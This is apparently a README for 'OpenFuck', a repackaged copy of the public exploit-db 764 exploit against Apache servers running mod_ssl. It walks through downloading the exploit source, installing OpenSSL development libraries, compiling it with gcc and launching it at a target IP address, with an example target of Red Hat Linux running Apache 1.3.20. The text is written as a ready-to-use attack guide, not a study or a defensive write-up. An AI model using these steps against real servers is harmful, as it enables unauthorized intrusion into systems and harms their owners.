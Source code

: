 # OpenFuck
This is a tool to exploit apache server

This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

1.Download 764.c



2.Install libssl-dev & libssl1.0dev

sudo apt install libssl-dev
sudo apt install libssl1.0 dev

3.Now Compile

gcc -o OpenFuck 764.c -lcrypto

4.Run the exploit

./OpenFuck

5.See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.

For Example

./OpenFuck 0*6b [IP Address] -c 50


